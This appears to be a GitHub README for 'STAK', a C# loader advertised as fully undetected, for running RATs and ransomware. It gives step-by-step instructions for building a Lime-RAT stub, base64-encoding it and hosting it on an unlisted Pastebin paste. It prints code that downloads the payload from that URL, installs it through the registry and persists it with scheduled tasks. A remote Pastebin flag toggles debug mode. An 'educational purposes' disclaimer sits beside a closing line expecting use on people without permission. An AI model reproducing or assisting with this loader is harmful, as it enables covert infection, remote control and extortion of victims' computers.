 # STAK
STAK is a fully undetected program runner that can run everything you want. From ransomware, to RATs.

This is purely made for educational purposes and not ment to be used to spread a RAT or any sort of malware.

# How to set this up and compile it.
**You will need:**

`Visual Studio Community 2019`

`A browser, such as Chrome`

`Pastebin`

`A program you want to run`

Now to compile it, you need to do a couple of things.
If you want to add a RAT to it, its pretty easy. You can do this with f.e [Lime-RAT](https://github.com/NYAN-x-CAT/Lime-RAT).
In this tutorial i will explain it with Lime-RAT.

Download Lime-RAT from [this link](https://github.com/NYAN-x-CAT/Lime-RAT/releases/download/v0.1.9.2/Compiled.zip).
Open Lime-RAT, and build your stub. You can follow [this](https://www.youtube.com/watch?v=8cl4nMJgb7o) tutorial.

Download the source by clicking the "Clone or download" button and clicking "Download ZIP". Unzip it using any program you want. Now open the STAK.sln file. You will get something like this: 

![](https://i.imgur.com/acxRTng.png)

Click on Program.cs. You will now see something like this: 

![](https://i.imgur.com/80YOqnk.jpg)

**Now follow what i say.**
Find this in Program.cs:

```
string Payload = DownloadPayload("YOUR-STUB-HERE");
InstallRegistry(Payload);
AddToSchtasks();
```

This is the part where you will need your stub, pastebin and your browser.
Open your browser and open [this link](https://www.browserling.com/tools/file-to-base64). Drag and drop your stub into the blue space on the site. Now press "Convert to Base64!". A box will open up below the button, click on it, press CTRL + A and press CTRL + C. Now open up pastebin with [this link](https://pastebin.com). You will now see this:

![](https://i.imgur.com/hQ4kV6q.png)

Copy and paste the Base64 code into your paste with CTRL + V. Set Paste Exposure to Unlisted and give the paste a name. It doesnt matter what. Now press the "raw" button. Copy the link in your search bar. Paste this link into "YOUR-STUB-HERE". **DO NOT DO THIS ON ONE OF THEM, THERE ARE MULTIPLE OF THESE CODES.**
There are 2 of the same codes in one, because there is a debug mode i did in a lazy way :D

```
if (debugmode == "debug")
{
    DialogResult result = MessageBox.Show("Run RAT?", "DEBUG-MODE", MessageBoxButtons.YesNo);
    if (result == DialogResult.Yes)
    {
        string Payload = DownloadPayload("Add the pastebin link to here.");
        InstallRegistry(Payload);
        AddToSchtasks();
    }
    else
    {
        MessageBox.Show("Skipping...", "DEBUG-MODE");
    }
}
else
{
    string Payload = DownloadPayload("But also to here.");
    InstallRegistry(Payload);
    AddToSchtasks();
}
```

It will now look like this.

```
string Payload = DownloadPayload("https://pastebin.com/raw/yourpastelink");
InstallRegistry(Payload);
AddToSchtasks();
```

You are done for the stub!
If you want to add a debug mode, you can make a new paste with the same explanation as i just told you but instead of pasting the base64 code into the paste you paste a 1 (debug mode on) or a 0 (debug mode off). Then you click on raw again and copy the pastebin link. Then find this:

```
private static void Checker()
{
    string url = ("https://pastebin.com/raw/qA3FzffP");
    string debug = new WebClient().DownloadString(url);
    if (debug == "1")
    {
        debugmode = "debug";
    }
}
```

Change the pastebin link you see in there with the pastebin link you just copied.

**You are done!**

Now compile it by changing Debug to Release from here!

![](https://i.imgur.com/VeUiZJ9.png)

## Have fun playing with it! If you chose to RAT someone that you don't have permission to, its gonna be your own fault buddy. Its all on you, if you go to jail.
